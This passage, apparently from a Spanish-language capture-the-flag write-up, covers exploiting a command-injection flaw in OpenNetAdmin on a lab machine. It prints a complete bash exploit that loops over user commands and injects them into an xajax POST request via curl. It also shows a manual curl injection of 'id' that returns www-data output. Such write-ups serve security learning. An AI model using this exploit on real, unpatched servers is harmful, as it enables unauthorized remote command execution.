 Realizaremos la misma búsqueda por Internet y también logramos encontrar vulnerabilidades para esta versión.

<figure><img src="../../.gitbook/assets/imagen (4).png" alt="" width="530"><figcaption></figcaption></figure>

El exploit que hemos encontrado para lograr explotar la vulnerabilidad es la siguiente, realiza una solicitud mediante `cURL` en el cual a través de una serie de datos podemos conseguir una ejecución de comandos remotos `RCE`.

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

#### Explotación manual

Realizamos la explotación de la vulnerabilidad manualmente a través de `cURL` y comprobamos que al intentar ejecutar el comando `id`, en el resultado que se nos muestra confirmamos el `output` de la ejecución de comandos.

```bash
❯ curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping"  http://10.10.10.171/ona/
<?xml version="1.0" encoding="utf-8" ?><xjx><cmd n="js"><![CDATA[removeElement('tooltips_results');]]></cmd><cmd n="ce" t="window_container" p="tooltips_results"><![CDATA[div]]></cmd><cmd n="js"><![CDATA[initialize_window('tooltips_results');el('tooltips_results').style.display = 'none';el('tooltips_results').style.visibility = 'hidden';el('tooltips_results').onclick = function(ev) { focus_window(this.id); };]]></cmd><cmd n="as" t="tooltips_results" p="innerHTML"><![CDATA[

...[snip]...
 <pre style="padding: 4px;font-family: monospace;">uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
